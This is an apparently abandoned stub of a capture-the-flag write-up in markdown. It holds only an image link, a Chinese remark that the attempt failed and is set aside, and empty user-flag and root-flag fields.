  

>寄啦搁置一下
>


>userflag:
>
>rootflag:
>